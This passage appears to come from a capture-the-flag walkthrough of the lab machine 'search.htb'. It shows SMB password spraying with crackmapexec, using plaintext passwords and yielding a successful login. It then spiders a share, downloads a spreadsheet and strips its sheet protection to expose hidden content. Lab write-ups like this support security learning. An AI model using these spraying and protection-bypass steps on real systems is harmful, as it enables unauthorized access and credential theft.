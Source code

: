     Remove the @search.htb 
    

## SMB Password spraying

We can try the two passwords for all domain users.

- `crackmapexec smb search.htb -u domain_users.txt -p 'IsolationIsKey?' '@3ONEmillionbaby' --continue-on-success`

```
SMB search.htb  445    RESEARCH   [+] search.htb\EDGAR.JACOBS:@3ONEmillionbaby
```

## SMB Spider Shares

- `cat search.htb.json | jq '. | map_values(keys)'`

```json
"NETLOGON": [],
  "RedirectedFolders$": [
    "edgar.jacobs/Desktop/$RECYCLE.BIN/desktop.ini",
    "edgar.jacobs/Desktop/Microsoft Edge.lnk",
    "edgar.jacobs/Desktop/Phishing_Attempt.xlsx",
    "edgar.jacobs/Desktop/desktop.ini",
    "edgar.jacobs/Documents/$RECYCLE.BIN/desktop.ini",
    "edgar.jacobs/Documents/desktop.ini",
    "edgar.jacobs/Downloads/$RECYCLE.BIN/desktop.ini",
    "edgar.jacobs/Downloads/desktop.ini",
    "sierra.frye/Desktop/$RECYCLE.BIN/desktop.ini",
    "sierra.frye/Desktop/Microsoft Edge.lnk",
    "sierra.frye/Desktop/desktop.ini",
    "sierra.frye/Desktop/user.txt",
    "sierra.frye/user.txt"
```

We can view directorys from user `sierra.frye` but dont read files.

Download the `edgar.jacobs/Desktop/Phishing_Attempt.xlsx`

- `unzip Phishing_Attempt.xlsx`
- `find . | grep sheet`

```
./xl/worksheets
./xl/worksheets/sheet1.xml
./xl/worksheets/_rels
./xl/worksheets/_rels/sheet2.xml.rels
./xl/worksheets/_rels/sheet1.xml.rels
./xl/worksheets/sheet2.xml
```

We need to remove the sheetProtection line.

- `nano ./xl/worksheets/sheet2.xml`

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<SNIP>
Vincent.Sutton</v></c></row><row r="17" spans="3:3" x14ac:dyDescent="0.25"><c r="C17" s="4"/></row></sheetData><sheetProtection algorithmName="SHA-512" hashValue="hFq32ZstMEekuneGzHEfxeBZh3hnmO9nvv8qVHV8Ux+t+39/22E3pfr8aSuXISfrRV9UVfNEzidgv+Uvf8C5Tg==" saltValue="U9oZfaVCkz5jWdhs9AA8nA==" spinCount="100000" sheet="1" objects="1" scenarios="1"/><pageMargins left="0.7" right="0.7" top="0.75" bottom="0.75" header="0.3" footer="0.3"/><pageSetup paperSize="9" orientation="portrait" r:id="rId1"/></worksheet>
```

